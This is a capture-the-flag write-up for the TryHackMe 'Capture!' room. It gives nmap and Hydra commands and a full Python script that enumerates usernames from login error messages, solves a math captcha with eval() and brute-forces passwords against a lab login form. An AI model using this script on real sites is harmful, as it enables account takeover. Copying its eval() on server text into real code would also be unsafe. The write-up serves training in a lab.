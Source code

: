 # Capture! Writeup by 1nsouciance (l1asis)
![Room Picture](./images/room.png)

## Hi everyone! ***Capture!*** room on TryHackMe is pretty simple, but interesting room... Let's break it down!

## ***Resources***
### Make sure you download the .zip archive with logins and passwords provided by the room creator!

## ***Step 1: Reconnaissance***
### Nmap is powerful and handful tool for enumerating targets, so let's begin with it:
```bash
sudo nmap -sS -Pn 10.10.170.111
```
### **Nmap Results:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 08:00 BST
Nmap scan report for localhost (10.10.170.111)
Host is up (0.52s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 5.15 seconds
```

### There's a website. Let's check it with our browser:
![Screenshot](./images/screen1.png)

### **Login page!** Errors and incorrect credentials are our close friends right now! (you have to enter something and try to login)
![Screenshot](./images/screen2.png)

### **Oh no...** But now we know that the first security breach of this login form is that it shows us whether the user exists or not! It's important to keep this in mind.

## ***Step 2.1: Dictionary attack with Hydra***
### I will say up front, I tried to breach this login form with 'hydra' right away, but the long time without results showed that there was something else we didn't take into account...
```bash
hydra -L usernames.txt -P passwords.txt "http-post-form://10.10.170.111/login:username=^USER^&password=^PASS^:Error"
```

### **Let's check the form with incorrect credentials one more time:**
![Screenshot](./images/screen3.png)

### **A-ha!** Mathematical captcha! From this moment, the most interesting stage of login form hacking begins: we'll write **an automated script in Python!**

## ***Step 2.2: Scripting***
### First of all we have to import two very useful libraries with `import` keyword, read our usernames and passwords from the files into lists and create url variable:
```python
import requests, re

url = "http://10.10.170.111/login"

with open("usernames.txt", "rt") as fd:
	usernames = fd.read().splitlines()
	
with open("passwords.txt", "rt") as fd:
	passwords = fd.read().splitlines()
```

### Next step may be a little bit hard to understand for beginners in hacking/programming. We'll create a regular expression for finding captcha string in the html server responses later:
```python
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
```
### **P.S.** There's two useful websites, where you can read more about it, or practice creating your own regular expressions:
### | [Wiki](https://en.wikipedia.org/wiki/Regular_expression) | [Regex101](https://regex101.com/) |
 

### **Right then** we'll create function, that will send POST request, trying to log in:
```python
def send_post(username, password, captcha=None):
	data = {
		"username":username,
		"password":password,
	}
	if captcha:
		data.update({"captcha":captcha})
	response = requests.post(url=url, data=data)
	return response
```

### And another function to find the captcha equation and solve it with built-in python function `eval()`:
```python
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
```

### Then we'll try to find next captcha solution:
```python
for count in range(100):
	response = send_post("darthvader", "lukesfather")
	try:
		captcha = solve_captcha(response)
		print(f"Captcha synchronised! Next solution is: {captcha}")
		break
	except:
		pass
```

### **And our final block of code!** We'll iterate through all our usernames and passwords ***(but trying to identify existing username first)*** and then try all passwords to login:
```python
for username in usernames:
	response = send_post(username, "None", captcha)
	captcha = solve_captcha(response)
	if not "does not exist" in response.text:
		for password in passwords:
			response = send_post(username, password, captcha)
			if not "Error" in response.text:
				print(f"Success! Username:{username} Password:{password}")
				exit(0)
			else:
				captcha = solve_captcha(response)
```

## ***Phew.*** TIME X!
![Screenshot](./images/screen4.jpg)

## ***Finally :\)*** Let's now grab our flag...
![Screenshot](./images/screen5.jpg)

## **I hope you enjoyed my writeup. You can find the script in this repository. Be safe! <3**
